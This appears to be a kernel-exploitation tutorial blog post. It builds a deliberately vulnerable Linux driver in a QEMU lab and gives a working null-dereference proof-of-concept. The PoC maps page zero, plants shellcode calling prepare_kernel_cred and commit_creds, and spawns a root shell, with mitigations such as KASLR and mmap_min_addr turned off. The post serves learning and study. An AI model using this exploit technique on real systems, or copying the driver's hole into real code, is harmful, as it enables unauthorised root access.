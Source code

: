 ```yaml
---
title: null dereference
tags:
  - kernel
  - pwn
date: 2020-02-12 13:47:37
---
```



> show the basic approach in kernel pwn

host environment:
- Linux 4.19.102 x86_64
- gcc 9.2.0
- qemu 4.2.0
- busybox 1.31.1
- linux-5.5.2
<!-- more -->
## Prepare

### compile kernel

> here choose the latest kernel (5.5.2), use tsinghua mirror to speed up

remember to check the following options on.

```
kernel hacking ->
    Compile-time checks and compiler options ->
        Compile the kernel with debug info
    Generic kernel Debugging Instruments ->
        KGDB: kernel debugger
```
```bash
make nconfig
make -j8
```

### compile busybox

remember to check the `Settings -> Build static binary (no shared libs)` option on.
check the `Linux System Utilities -> Support mountiong NFS file systems on Linux < 2.6.23` and `Networking Utilities -> inetd` options **off**.

```bash
make menuconfig
make -j8
```

### prepare rootfs

```bash
cd _install
mkdir -p dev etc/init.d proc sys
echo "#!/bin/sh \
      mount -t proc none /proc \
      mount -t sysfs none /sys \
      /sbin/mdev -s" > etc/init.d/rcS
chmod +x etc/init.d/rcS
find .|cpio -o --format=newc > ../rootfs.img
```

### boot the kernel

```bash
$ qemu-system-x86_64 -s -kernel ~/Downloads/linux-5.5.2/arch/x86_64/boot/bzImage -initrd ~/Downloads/busybox-1.31.1/rootfs.img -append "root=/dev/ram rdinit=/sbin/init"
# qemu-system-x86_64 -s -kernel ~/Downloads/linux-5.5.2/arch/x86_64/boot/bzImage -initrd ~/Downloads/busybox-1.31.1/rootfs.img -append "root=/dev/ram rdinit=/sbin/init console=ttyS0" --nographic

# -s: remote debug on tcp::1234
```

## vulnerable kernel driver

### nrd.c and makefile
```c
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/proc_fs.h>

void (*func)(void);

ssize_t vuln(struct file *filep, const char __user *buffer, size_t count, loff_t *pos) {
	func();
	return count;
}
static struct file_operations ops = {
	.write = vuln
};

static int __init nrd_init(void) {
	printk(KERN_ALERT "null_dereference driver init!\n");
	proc_create("vuln", 0666, NULL, &ops);
	return 0;
}

static void __exit nrd_exit(void) {
	printk(KERN_ALERT "null_dereference driver exit!\n");
}

module_init(nrd_init);
module_exit(nrd_exit);

MODULE_AUTHOR("void0red");
MODULE_LICENSE("GPL");⏎ 
```

```makefile
obj-m := nrd.o
KERNELDIR := /home/void0red/Downloads/linux-5.5.2
PWD := $(shell pwd)

all:
	$(MAKE) -C $(KERNELDIR) M=$(PWD) modules

clean:
	$(MAKE) -C $(KERNELDIR) M=$(PWD) clean
```

### poc.c

```c
#include <stdlib.h>
#include <sys/types.h>
#include <fcntl.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>

char payload[] = "\x48\x31\xff\xe8\x68\xc0\x08\x81\xe8\x23\xbc\x08\x81\xc3";

int main() {
	mmap(0, 4096, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_FIXED|MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
	memcpy(0, payload, sizeof(payload));
	int fd = open("/proc/vuln", O_WRONLY);
	write(fd, "a", 1);
	system("/bin/sh");
	return 0;
}

$ gcc --staitc poc.c -o poc

```

### details

1. execute chain: vuln -> prepare_kernel_cred -> commit_creds
2. how to get the address of the key function:
    1. use the `System.map` file in the root of kernel source folder
        ```bash
        $ grep prepare_kernel_cred System.map
        ffffffff8108c070 T prepare_kernel_cred
        ffffffff822e6760 r __ksymtab_prepare_kernel_cred
        ffffffff822fbb4b r __kstrtabns_prepare_kernel_cred
        ffffffff822fbb4c r __kstrtab_prepare_kernel_cred
        ```
    2. use /proc/kallsyms in the kernel
        ```bash
        $ grep commit_creds /proc/kallsyms
        ```
        but should remember to append **nokalsr** to boot the kernel
        ```bash
        $ qemu-system-x86_64 -s -kernel ~/Downloads/linux-5.5.2/arch/x86_64/boot/bzImage -initrd ~/Downloads/busybox-1.31.1/rootfs.img -append "root=/dev/ram rdinit=/sbin/init nokaslr"
        ```
3. how to make the payload
    ```asm
    # poc.s
    xor %rdi, %rdi
    call 0xffffffff8108c070 # prepare_kernel_cred
    call 0xffffffff8108bc30 # commit_creds
    ret
    ```

    ```bash
    $ gcc poc.s -nostdlib -Ttext=0
    $ objdump -d a.out

    a.out:     file format elf64-x86-64


    Disassembly of section .text:

    0000000000000000 <.text>:
    0:	48 31 ff             	xor    %rdi,%rdi
    3:	e8 68 c0 08 81       	callq  ffffffff8108c070 <__bss_start+0xffffffff8108a070>
    8:	e8 23 bc 08 81       	callq  ffffffff8108bc30 <__bss_start+0xffffffff81089c30>
    d:	c3                   	retq   

    ```
4. mmap_min_addr
    ```bash
    # use to allow low memory mmap
    $ sysctl -w vm.mmap_min_addr="0"
    ```